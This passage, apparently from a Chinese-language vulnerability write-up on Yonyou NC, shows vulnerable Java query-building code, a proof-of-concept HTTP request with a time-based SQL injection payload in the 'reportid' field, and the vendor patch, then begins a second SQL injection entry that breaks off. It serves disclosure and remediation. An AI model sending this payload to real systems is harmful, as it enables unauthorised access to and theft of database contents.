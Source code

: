 ```plain
            buffer.append(" FROM ").append(tableName);
        }

        if (condition != null && condition.length() != 0) {
            if (condition.toUpperCase().trim().startsWith("ORDER ")) {
                buffer.append(" ").append(condition);
            } else {
                buffer.append(" WHERE ").append(condition);
            }
        }

        return buffer.toString();
    }
```

### 漏洞复现

```plain
POST /service/~iufo/nc.itf.iufo.mobilereport.data.ReportDetailDataQuery HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

{"reportid":"1';waitfor delay '0:0:4'--"}
```

### 漏洞修复

补丁地址： [https://security.yonyou.com/#/noticeInfo?id=465](https://security.yonyou.com/#/noticeInfo?id=465)

```plain
formPK = (String) requestMap.get("reportid");
//防 SQL 注入
DataParamValidator.validate(formPK);

public static void validate(String param) throws ServletException{
    if(param.contains("'")){
        throw new ServletException("invalid parameter");
    }
}
```

## ArchiveVerify 接口存在 SQL 注入

### 漏洞描述

攻击者未经授权可以访问数据库中的数据，从而盗取用户数据，造成用户信息泄露。

### 漏洞分析
